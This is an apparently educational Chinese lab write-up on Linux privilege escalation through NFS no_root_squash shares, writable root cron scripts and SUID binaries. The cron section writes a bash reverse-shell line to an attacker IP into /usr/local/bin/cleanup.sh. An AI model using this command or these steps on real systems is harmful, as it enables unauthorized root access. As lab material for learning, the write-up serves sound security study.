NFS 有一个安全机制叫 root_squash（默认开启）。它的作用是：当客户 端以 root 身份访问 NFS 共享时，服务器会把该用户的 UID 映射成 nfsnobody （一个无特权的用户），防止客户端 root 在共享目录里搞破 坏。

如果管理员在 /etc/exports 中配置了 no_root_squash，这个保护就失效 了。客户端的 root 在共享目录里保持 root 身份，可以创建属于 root 的文 件、设置 SUID 位——这就给了提权机会

john@cron-box:~$ vim /usr/local/bin/cleanup.sh john@cron-box:~$ cat /usr/local/bin/cleanup.sh #!/bin/bash

bash -i >& /dev/tcp/10.48.121.153(攻击机ip)/6666 0>&1



## 第 15 页

权限提升的途径并不限于内部访问方式。共享文件夹以及 SSH、Telnet 等远程管理接口，也能帮助用户获得目标系 统的 root 权限。在某些情况下，需要同时利用多种途径来提升权限。例如，可以在目标系统上找到 root 用户的 SSH 私钥，然后使用 root 权限通过 SSH 进行连接，而无需试图提升当前用户的权限等级。 另一个风险因素是配置错误的网络shell程序。在渗透测试过程中，如果系统中存在网络备份系统，就有可能发现这 种风险。 NFS（网络文件共享）的配置信息保存在 /etc/exports 文件中。该文件是在安装 NFS 服务器时生成的，通常用户可 以读取该文件的内容。 发现共享信息 showmount -e 10.48.172.135（靶机） 然后，可以将其中一个“no_root_squash”共享挂载到攻击用的机器上，从而开始构建可执行文件 由于可以设置 SUID 位，因此，一个能在目标系统上执行 /bin/bash 操作的简单可执行文件就足以完成这项任务。 编译代码完成后，就可以设置 SUID 位了。 注意：还需要确保该文件的所有者是 root 用户（即 root:root ）。







## 第 16 页

然后回到目标系统进行查看 确认nfs程序已经存在，运行上传的二进制文件 在目标系统上，nfs 可执行文件的 SUID 位被设置了，因此该程序以 root 权限运行 总结：

在这个房间里，学习了那些最常见的配置错误，这些错误会导致普通 Linux 用户获得 root 权限。 滥用过于宽松的 sudo 权限规则，以其他用户的身份来执行具有特殊权限的命令。 找到那些以所有者身份运行的 SUID 二进制文件，并把它们变成了shell程序。 篡改 PATH 环境变量，从而诱使具有特殊权限的脚本去运行由攻击者控制的二进制文件。 利用错误可执行文件上留下的 Linux 功能。 滥用以 root 身份运行的可写入 cron 作业。 利用某个配置错误的 NFS 共享功能——该共享功能未启用“no_root_squash”设置。由此，你得以从自己的机 器上将一个具有 root 权限的 SUID 二进制文件植入目标系统。







## 第 17 页

所有这些情况的共同点都是一样的：权限提升问题很少是由某个严重的漏洞导致的；而更多是因为一些细微的配置 错误，使得用户获得了本不应拥有的权限。仔细检查每一项以其他用户身份运行的程序的权限设置，这样就能找到 问题的根源了。
